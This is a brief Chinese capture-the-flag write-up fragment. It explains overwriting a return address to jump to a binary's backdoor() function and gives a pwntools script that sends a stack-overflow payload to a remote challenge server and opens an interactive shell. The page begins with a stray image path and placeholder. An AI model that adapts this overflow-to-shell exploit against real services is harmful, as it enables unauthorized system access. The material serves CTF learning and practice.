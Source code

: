 ![image.png](img/fe2ae3fd026075b9eafead2f0f7f5b7e.png)

故考虑构造rop链执行`backdoor()`函数即可

构造exp如下

```
from pwn import *

payload = b'A'*0x10 + p64(0xdeadbeef) + p64(0x4006e6)

p = remote('node3.buuoj.cn',25806)
p.sendline(b'100')
p.sendline(payload)
p.interactive() 
```

运行即可getshell
